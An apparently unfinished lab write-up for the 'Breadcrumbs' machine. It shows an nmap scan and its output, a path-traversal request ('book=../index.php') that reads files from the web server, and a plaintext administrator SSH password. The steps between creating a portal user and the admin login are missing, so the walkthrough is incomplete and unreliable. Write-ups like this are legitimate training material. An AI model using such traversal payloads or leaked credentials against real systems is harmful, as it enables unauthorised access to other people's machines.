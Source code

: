 
# Beardcrumbs
IP : 10.10.10.228
OS : windows

## Recon
nmap scan 
```bash
nmap -sV -sC -p- -oA nmap breadcrumbs.htb
```
nmap output 

```bash
Nmap scan report for breadcrumbs.htb (10.10.10.228)  
Host is up (0.032s latency).  
Not shown: 65520 closed ports  
PORT      STATE SERVICE       VERSION  
22/tcp    open  ssh           OpenSSH for\_Windows\_7.7 (protocol 2.0)  
| ssh-hostkey:  
|   2048 9d:d0:b8:81:55:54:ea:0f:89:b1:10:32:33:6a:a7:8f (RSA)  
|   256 1f:2e:67:37:1a:b8:91:1d:5c:31:59:c7:c6:df:14:1d (ECDSA)  
|\_  256 30:9e:5d:12:e3:c6:b7:c6:3b:7e:1e:e7:89:7e:83:e4 (ED25519)  
80/tcp    open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/8.0.1)  
| http-cookie-flags:  
|   /:  
|     PHPSESSID:  
|\_      httponly flag not set  
|\_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1  
|\_http-title: Library  
135/tcp   open  msrpc         Microsoft Windows RPC  
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn  
443/tcp   open  ssl/ssl       Apache httpd (SSL-only mode)  
| http-cookie-flags:  
|   /:  
|     PHPSESSID:  
|\_      httponly flag not set  
|\_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1  
|\_http-title: Library  
| ssl-cert: Subject: commonName=localhost  
| Not valid before: 2009-11-10T23:48:47  
|\_Not valid after:  2019-11-08T23:48:47  
|\_ssl-date: TLS randomness does not represent time  
| tls-alpn:  
|\_  http/1.1  
445/tcp   open  microsoft-ds?  
3306/tcp  open  mysql?  
| fingerprint-strings:  
|   NULL:  
|\_    Host '10.10.14.200' is not allowed to connect to this MariaDB server  
5040/tcp  open  unknown  
7680/tcp  open  pando-pub?  
49664/tcp open  msrpc         Microsoft Windows RPC  
49665/tcp open  msrpc         Microsoft Windows RPC  
49666/tcp open  msrpc         Microsoft Windows RPC  
49667/tcp open  msrpc         Microsoft Windows RPC  
49668/tcp open  msrpc         Microsoft Windows RPC  
49669/tcp open  msrpc         Microsoft Windows RPC  
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
SF-Port3306-TCP:V=7.91%I=7%D=5/11%Time=609A33A7%P=x86\_64-pc-linux-gnu%r(NU  
SF:LL,4B,"G\\0\\0\\x01\\xffj\\x04Host\\x20'10\\.10\\.14\\.200'\\x20is\\x20not\\x20allo  
SF:wed\\x20to\\x20connect\\x20to\\x20this\\x20MariaDB\\x20server");  
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


Lets start by looking at the web service. the HTTP and HTTPS is the same web service.
Very simple web service which allows up to look up book by title or author. 
Start up burp and lets look at how the request to the service look like. 
We see the post request made to the service

```html
title=te&author=&method=0
```

Lets try and edit this request

After a bit of playing around i found this request
Changing the request to the method above allow us to read files on the web services.
```html
book=../index.php&method=1
```

 Lets see if we can find anything of value. 

```html
HTTP/1.1 200 OK
Date: Tue, 11 May 2021 08:33:48 GMT
Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1
X-Powered-By: PHP/8.0.1
Content-Length: 220
Connection: close
Content-Type: text/html; charset=UTF-8

<br />
<b>Warning</b>:  file_get_contents(../books/../php.conf): Failed to open stream: No such file or directory in <b>C:\Users\www-data\Desktop\xampp\htdocs\includes\bookController.php</b> on line <b>28</b><br />
false
```

Look at the response we get an idea of the folder structure. 
We are currently acting as www-data user and the bookController.php directory path. 

```html
book=../index.php&method=1
```

I find a directory called portal,here we can go to login.php 
go there and create a new user.




ssh administrator@10.10.10.228  
Password: p@ssw0rd!@#$9890./



writeups : Password: p@ssw0rd!@#$9890./
https://fdlucifer.github.io/2021/02/23/breadcrumbs/